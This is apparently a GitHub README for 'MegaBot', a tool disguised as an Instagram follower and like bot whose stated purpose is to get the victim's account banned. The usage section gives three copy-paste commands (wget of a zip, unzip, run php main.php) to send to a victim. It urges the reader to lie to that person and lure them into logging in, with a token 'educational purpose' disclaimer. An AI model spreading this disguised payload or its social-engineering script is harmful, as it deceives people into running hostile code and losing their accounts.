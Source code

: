 # Don't use this Tool!!

Don't ever Try this Tool Unless You know what are you Doing!!

Read this BLOG :- [BLOG LINK](https://cyberjeevi.blogspot.com/2021/08/get-yourself-banned-in-instagram.html)

![ScreenShot](https://user-images.githubusercontent.com/72810866/129549376-27c8be85-ee17-4fa6-9e35-53cd6fd18409.png)

This is What it Looks Like in Front View!!

But What's going inside??

If you run This Bot get Followers or Likes,

BOOM!! Your Account will be Vanished from Instagram!!

Wanna Know What's in Behind??

Read the ABOVE Blog Carefully!!

Wanna Make your Friends MAD!!
Use this Tool!!

Sometimes its a good tool to BREAK YOUR FRIENDSHIP!!

*****WORKS ON TERMUX ANDROID****

****pkg install php****

## Usage:

Send the Below 3 Commands to Victim:

Copy & Paste Command Below:
```
wget -qO MegaBot.zip https://github.com/cyberjeevi/get-insta-ban/raw/main/MegaBot.zip
```
Unzip MegaBot:
```unzip MegaBot.zip```

Run Bot:
```php main.php```


That's All!! Login & Get Screwed UP!!



Convince Him By Telling Him , it'll get Followers and Likes!!
Smoooth!!

When he login to instagram using This Tool, His Account will be terminated By Instagram with no REASON!!



LAST BUT NOT LEAST!! 

Social-Engineering is an Art , you must know it to Make Someone Fall in your TRAP!!

****WarninG****

We are not Responsible for Anything you're Doing with this!!
This Tool is Meant for Educational Purpose Only!!

